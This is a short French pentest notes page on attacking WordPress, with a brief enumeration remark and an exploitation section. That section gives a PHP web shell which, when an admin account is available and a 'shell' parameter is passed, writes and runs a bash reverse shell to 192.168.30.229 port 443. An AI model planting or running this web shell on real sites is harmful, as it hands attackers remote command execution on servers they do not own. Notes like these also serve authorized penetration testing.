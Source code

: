 ```yaml
---
title: WordPress
permalink: /WordPress/
---
```


# WordPress

Enumeration
-----------

Lors de cette étape on va chercher à identifier les plugins vulnérables présents sur le wordpress ainsi que les utilisateurs présents.

Exploitation
------------

### Reverse Shell

Avec un compte admin il est possible d'obtenir un reverse shell:

``` php
<?php
if(isset($_GET["shell"]))
{
    system("echo 'bash -i >& /dev/tcp/192.168.30.229/443 0>&1' > /tmp/shell.sh");
    system("bash /tmp/shell.sh");
}
?>
```


